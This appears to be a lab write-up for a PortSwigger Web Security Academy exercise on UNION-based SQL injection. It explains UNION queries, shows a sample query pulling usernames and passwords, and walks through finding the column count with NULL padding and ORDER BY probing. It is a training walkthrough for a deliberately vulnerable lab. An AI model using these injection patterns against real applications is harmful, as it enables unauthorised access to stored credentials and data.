 Link : https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns

![image](https://github.com/user-attachments/assets/e720dc25-4ea7-4ac3-993b-61c72d072a76)



Goal: Goal of this lab is to determine the number of columns returned using UNION based SQL Injection attack.


Concatenates the results of two queries into a single result set. You control whether the result set includes duplicate rows:
• UNION ALL - Includes duplicates.
• UNION - Excludes duplicates.

A UNION operation is different from a JOIN:
◇ A UNION concatenates result sets from two queries. But a UNION does not create individual rows from columns gathered from two tables.
◇ A JOIN compares columns from two tables, to create result rows composed of columns from two tables.
#Background (UNION)


# talbe1     table2
# a | b      c | d    
# -----------------
# 1 , 2      3 , 4
# 3 , 4      4 , 5

# Query 1#:
# SELECT a,b FROM table1
# result#:
# 1 , 2
# 3 , 4

# Query 2#:
# SELECT a,b FROM table1 UNION SELECT c,d FROM table2
# result #:
# 1 , 2
# 3 , 4
# 3 , 4
# 4 , 5


# Malecious Query #:
# SELECT a,b FROM table1 UNION SELECT username , password FROM users


The following are basic rules for combining the result sets of two queries by using UNION:
◇ The number and the order of the columns must be the same in all queries.

◇ The data types must be compatible.


for finding number of column in query 

1st way:

# select ? from table1 union select null

 <error> incorrect number of column
 ![image](https://github.com/user-attachments/assets/36517dc3-a2c0-4745-91bd-205377dec4f8)
![image](https://github.com/user-attachments/assets/72feb6fb-c07c-4271-9194-ab90a350f213)

 
# select ? from table1 union select  null,null

<error> incorrect number of column

![image](https://github.com/user-attachments/assets/6afb9861-2b39-4b85-9a89-357157f67337)

![image](https://github.com/user-attachments/assets/9cbf9eb7-33c1-422e-b463-f233437ef3ac)

# select ? from table1 union select null,null,null  

<status 200 ok > correct number of columns (number of null = number of columns=3)


![image](https://github.com/user-attachments/assets/f9ae6496-9a70-4fef-8a5e-807956c950ed)


2nd way 

using order by 

# select ? from table1 order by 1

status 200
![image](https://github.com/user-attachments/assets/1144ceba-4326-4a63-bfe7-523ce8f02c19)


# select ? from table1 order by 2

status 200 

![image](https://github.com/user-attachments/assets/bfe5816a-d4d0-469e-9457-96b1f9ef8a4f)

# select ? from table1 order by 3

status 200
![image](https://github.com/user-attachments/assets/5d5e68e0-b546-4c20-ba3b-456194af3fde)

# select ? from table1 order by 4 

<error> which means numer of columns = current number -1  i.e  4-1 = 3
![image](https://github.com/user-attachments/assets/590ae88c-f86a-45e1-a543-3b3571b43328)


![image](https://github.com/user-attachments/assets/86fe5642-03bc-4fea-bc58-cf94a7b5aa2f)

